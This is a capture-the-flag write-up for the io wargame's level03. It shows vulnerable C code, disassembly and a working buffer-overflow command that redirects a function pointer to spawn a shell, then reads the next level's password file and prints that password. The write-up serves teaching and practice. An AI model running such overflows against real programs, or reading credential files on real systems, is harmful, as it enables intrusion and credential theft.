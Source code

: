 # Level 03

In this level, is provided to us a binary at ***/levels/level03***, it's about a simple Buffer Overflow exploration, take a look at his code:

```c
#include <stdio.h>
#include <string.h>

void good()
{
        puts("Win.");
        execl("/bin/sh", "sh", NULL);
}
void bad()
{
        printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
}

int main(int argc, char **argv, char **envp)
{
        void (*functionpointer)(void) = bad;
        char buffer[50];

        if(argc != 2 || strlen(argv[1]) < 4)
                return 0;

        memcpy(buffer, argv[1], strlen(argv[1]));
        memset(buffer, 0, strlen(argv[1]) - 4);

        printf("This is exciting we're going to %p\n", functionpointer);
        functionpointer();

        return 0;
}
```

## Analysing the flaw
First it's created a function pointer that holds the bad function address, 
the wrong one, then it's created a buffer with 50 bytes length.

Then our entire argv[1] input is copied to our 50 bytes buffer, and then its removed our input size minus 4 bytes.

## Exploiting

It's very simple to realized how can we reach the good function, we just need to get the padding that break the program, and then fill with the address of our good function.


If you look at the asm code, you will notice that the stack frame reserving part, allocates 0x78 -> 120 bytes, now just subs from 50 bytes and you will realize that after 4 bytes of that, because the word size is 32 bits, we will start to enter in the ***void* pointer*** address.

```
level3@io:/levels$ objdump -DM intel level03 | less
 080484c8 <main>:
 80484c8:       55                      push   ebp
 80484c9:       89 e5                   mov    ebp,esp
 80484cb:       83 ec 78                sub    esp,0x78
```

### The exploit:

```
level3@io:/levels$ ./level03 $(python -c 'print("A"*76 + "\x74")')
This is exciting we're going to 0x8048474
Win.
```

Password for level4:
```
sh-4.3$ cat /home/level4/.pass 
7WhHa5HWMNRAYl9T
```


